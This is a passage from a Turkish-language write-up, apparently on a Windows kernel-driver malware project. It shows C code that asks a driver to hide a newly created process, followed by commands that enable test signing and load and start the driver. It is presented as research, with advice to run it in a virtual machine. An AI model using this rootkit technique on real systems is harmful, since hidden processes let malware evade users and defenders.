 Dİğer parametrelerin yanı sıra **PRTL_USER_PROCESS_PARAMETERS**, **PPS_CREATE_INFO** ve **PS_ATTRIBUTE_LIST** yapılarını aldığını dikkat etmemiz gerek. Bu yapılarla beraber diğer parametreleri de belirterek process oluşturma işlemini başlatmış oluyoruz. 

```c
ProcessID = (HANDLE)(ULONG_PTR)GetProcessId(HandleNewProcess);
printf("[*] Created Process! Process ID: %lu\n", (ULONG)(ULONG_PTR)ProcessID);

Result = ConnectDriver(IOCTL_HIDE_PROCESS, &ProcessID, sizeof(ULONG_PTR), NULL, 0);
if (!Result) {
    printf("[-] Failed to Hide The Process! Error Code: 0x%lx\n", GetLastError());
    CloseHandle(HandleNewProcess);
    return -1;
}
printf("[+] The Process has been Hidden!\n");
```

Process'in oluşturulma sonrasında alınan handle değeriyle PID değerini alıyoruz ve HANDLE tipiyle ProcessID değişkenine aktarıyoruz. HANDLE tipiyle alma nedenimiz ise kernel tarafında PID değerleri HANDLE tipinde tutulduğu için çeviriyoruz. 

Daha sonra tekrar ConnectDriver fonksiyonunu IOCTL_HIDE_PROCESS kodu ile çağırarak process'i gizlemesi için talimat gönderiyoruz ve oluşturulan Process gizlenmiş oluyor. 

## Malware'in çalıştırılması

Eğer projeyi denemek istiyorsanız WinDbg bağlı bir sanal makine windows 10/11 kullanmanızı öneririm. Sistemde kalıcı kalıntılar bırakıldığından dolayı local sistemde çalıştırmanızı önermiyorum. 

Projeyi sanal makinede çalıştırmadan önce windows'un test ortamında çalıştırmanız gerekecektir. Aşağıdaki kod ile test modunu aktifleştirebilirsiniz:

```bash
bcdedit /set testsigning on
```

Daha sonra işletim sistemini yeniden başlatın. 

Yeniden başlattıktan sonra cmd.exe'yi admin yetkisiyle çalıştırın ve sürücüyü sisteme yükleyin:

```bash
sc.exe create resurrection type=kernel binPath="\\path\\to\\driver\\resurrection.sys" start=demand
```

Daha sonra sürücüyü başlatın:

```bash
sc.exe start resurrection
```

Son olarak dinleme işlemi için bir notepad veya paint gibi uygulama başlatabilirsiniz. Çalıştırdığınız bu programın PID değerini alın ve user-mode programına verin:

```bash
.\\program.exe <PID>
```

Daha sonra sonuçları gözlemleyebilirsiniz.
